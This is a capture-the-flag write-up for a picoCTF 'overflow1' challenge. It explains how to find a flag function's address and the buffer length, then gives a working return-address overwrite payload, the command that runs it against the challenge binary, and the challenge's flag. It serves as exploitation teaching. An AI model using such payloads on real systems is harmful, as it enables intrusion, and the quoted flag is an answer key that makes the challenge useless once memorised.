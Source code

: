 # overflow1

Simple overflow problem, only need to control return address, and jump to function flag in binary, which can open flag.txt.

Check security of the binary:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```
PIE is disabled, we can find address of the function flag.
```
0x080485e6 flag
```
We can find buffer length by looking the function vuln:
```
...
0x08048662 <+3>:	push   ebx
0x08048663 <+4>:	sub    esp,0x44
...
```
We found that in function vuln, stack first push the ebx into stack and sub length 68 as the buffer. Therefore, the length of the payload will be 4 bytes(ebx) + 68 bytes(buffer) + 4 bytes(ebp) = 76 bytes.

The payload will be:
```
'A'*76 + '\xe6\x85\x04\x08'
``` 
ssh to the 2019shell1.picoctf.com, and execute command:
```
cd /problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a
python2 -c "print 'A'*76 + '\xe6\x85\x04\x08'" | ./vuln
```
obtain the flag:
```
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5fe1ff3d8}
```

